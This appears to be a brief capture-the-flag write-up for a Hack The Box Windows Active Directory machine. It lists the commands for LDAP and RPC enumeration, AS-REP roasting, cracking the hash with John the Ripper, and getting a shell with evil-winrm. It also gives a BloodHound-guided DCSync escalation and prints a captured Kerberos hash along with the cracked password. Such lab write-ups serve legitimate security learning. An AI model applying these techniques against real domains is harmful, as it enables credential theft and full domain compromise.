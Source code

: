 #Windows-machine #active-directory  


# Enumerated LDAP service using ldapsearch and rpcclient

```shell
ldapsearch -x -b 'dc=domain,dc=tld' -H ldap://IP 

#other way 

rpcclient -U '' -N <IP>
> enumdomusers # displays all users
> queryusergroup # checks all user group
> querygroup # checks group info
``` 



# used GetNPUsers to get TGT 

```shell
GetNPUsers.py htb.local/svc-alfresco -no-pass -format hashcat -outputfile hashes.asrep -request
```

# cracked the hash using johntheripper
```shell
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5c7989407c8661891fcfcd648d3a58ee$9ab79261b60d3c932fa076c5c3889f68ecde7b39380106567024f68372a7282090ac688353e55061510c41286d2ed8d914eb41e12c5e00872c9a9c7aff24c39cfa8678f39fa2b6302e0f9377d7bdc72c67a054b7fe93769da9ed925e43fd8b9ff202ea933cd3ecdf2a8fdc118db10edde3347b691496c4c07effae374760299ae67576768c03a25f9964a9f48aba2b1913147c02990d9ec3c81d6c257eab0c10b63053fe50fca06da8ac49185f881b65187f51d81d9a001ae9b86fd458b2392d5bc036d0faf5d1a741e0e2466461c32f8f029d368128930d0c079cf47f8081dc5bbfa8808cc0

 john --wordlist=/usr/share/wordlists/rockyou.txt hash.asrep 
#Output
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL) 
```

# got a shell using evil-winrm

```shell
evil-winrm -u svc-alfresco -p 's3rvice' -i 10.129.42.229
```

# Used bloodhound to map out privesc path

>service accounts was a member of Account Operators which has a privilege to create accounts, it also has genericall privilege on Enterprise Key Admins and has the same permission as Exchange Windows permission, 

>Exchange Windows permission has writeDacl Permission on DC htb.local

> Added a user, followed the exploit in BloodHound

> created a user -> added it to the group that has writeDacl permission -> modified the user rights added a DCSync -> then used secretsdump.py
> 


